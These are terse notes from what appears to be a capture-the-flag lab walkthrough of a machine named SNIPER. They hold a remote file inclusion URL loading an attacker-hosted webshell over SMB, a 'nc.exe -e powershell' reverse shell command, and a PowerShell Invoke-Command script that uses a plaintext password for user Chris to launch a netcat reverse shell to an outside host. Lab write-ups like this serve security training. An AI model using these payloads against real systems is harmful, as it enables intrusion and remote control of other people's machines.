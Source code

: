 ##

http://10.129.107.51/blog/?lang=//10.10.14.4//evil//webshell.php

##

#
WEB RFI doesn't work, but SMB RFI works. Reverse Shell with Pentesting Monkey doesn't work, but Metepreter and WebShell work. 

Created Dir and upload NC to execute powershell to kali. nc.exe -e powershell ip port
#

```
$username = 'SNIPER\Chris'
 $password = '36mEAhz/B8xQ~2VM'
 $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
 $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
 Invoke-command -computername SNIPER -credential $credential -scriptblock { cmd.exe /c "C:\tmp\nc.exe" -e powershell 10.10.14.39 1234 }
```
